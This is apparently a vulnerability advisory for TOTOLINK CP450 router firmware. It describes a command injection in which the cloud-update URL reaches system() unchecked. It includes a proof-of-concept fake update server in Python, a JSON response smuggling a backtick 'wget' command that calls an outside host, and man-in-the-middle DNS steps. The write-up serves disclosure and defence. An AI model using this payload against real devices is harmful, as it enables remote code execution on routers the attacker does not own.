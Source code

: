 ## CP450 Command Injection

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

In the function `download_firmware`, the program gets the download link as `v6` from the file `"/var/cloudupg.ini"`, and passes it directly to the system function without any checks for `v6`. If attackers can control the download link `v6`, arbitrary commands will be executed.

![image-20240421163827190](./img/1.png)

After checking the source of the file `"/var/cloudupg.ini"`, We finded the function traceback: `uci_cloudupdate_config<-parse_upgserver_info<-connect_cloud<-cloudupdate_check`. In this call chain, the program sends a request to a server through a socket, parses the returned response, and writes the `url` parameter to the file `"/var/cloudupg.ini"`.

Before `cloudupdate_check` there is a function call of `init_host_config`

![image-20240421163827190](./img/2.png)

We can find the domain name of the server in this function.

![image-20240421163827190](./img/3.png)

#### Man-in-the-middle attack

1. make a fake server with follow response

```
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close

{"mode":"1","url":"`wget http://192.168.0.253:8000`","magicid":"foo","version":"1","svn":"","plugin":[],"protocol":"3.0"}
```

we can use payload like follows

```
import socket

sSock=socket.socket()
sSock.bind(('192.168.0.188',80))
sSock.listen(1000)

cSock,addr=sSock.accept()

if(True):
    str1=cSock.recv(1024)
    print("client:"+str1.decode('utf-8'))

    #str2=input('>>>')

    str2='''HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 13 Apr 2022 12:50:54 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 98
Connection: close

{"mode":"1","url":"`wget http://192.168.0.253:8000`","magicid":"foo","version":"1","svn":"","plugin":[],"protocol":"3.0"}'''
    cSock.send(str2.encode())

cSock.close()
```

2. make dnsresolve `update.carystudio.com` to the fake server
3. reboot the router
4. check http server `192.168.0.253` then we have successfully run command `wget http://192.168.0.253:8000`
